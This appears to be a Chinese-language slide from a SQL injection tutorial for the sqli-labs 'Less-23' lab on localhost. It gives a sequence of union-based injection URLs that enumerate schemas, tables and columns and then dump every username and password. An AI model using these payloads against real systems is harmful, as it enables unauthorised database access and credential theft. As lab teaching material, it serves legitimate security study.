

# Less-23_03

http://127.0.0.1/sqli/Less-23/?id=1‘ and  ’1‘=‘1 使用and 或者是or都可以
http://127.0.0.1/sqli/Less-23/?id=1‘ union select 1,2,3’ 我们使用union select进行闭合，其中要在3的位置进行闭合操作，但是在页面上没有显示1,2,3
http://127.0.0.1/sqli/Less-23/?id=-1‘ union select 1,2,3’ 此时我们将前面的值进行报错，使得前面的值无法被查询到
http://127.0.0.1/sqli/Less-23/?id=-1‘ union select 1,2,3’ 此时我们看到2,3位置有回显信息，我们可以选择使用2,3位置继续进行注入
使用-1或者是任意一个超出数据库中的数据均可：
 select * from users where id=1 union select 1,2,3; 这个语句可以查询到 1,2,3
 select * from users where id=-1 union select 1,2,3; 这个语句只能查询到1,2,3，我们也可以在id=1的位置上使用一个较大的数字都是可以的
http://127.0.0.1/sqli/Less-23/?id=111‘ union select 1,2,database()’ 查询当前的数据库
http://127.0.0.1/sqli/Less-23/?id=-1‘ union select 1,2,(select group_concat(schema_name) from information_schema.schemata) ‘ 可查询所有的库信息
http://127.0.0.1/sqli/Less-23/?id=-1‘ union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479)’  查询所有的表信息
http://127.0.0.1/sqli/Less-23/?id=-1‘ union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)’ 查询所有的列信息
http://127.0.0.1/sqli/Less-23/?id=-1‘ union select 1,2,(select  group_concat(concat_ws(0x7e,username,password)) from security.users)’ 一次性查询所有的字段值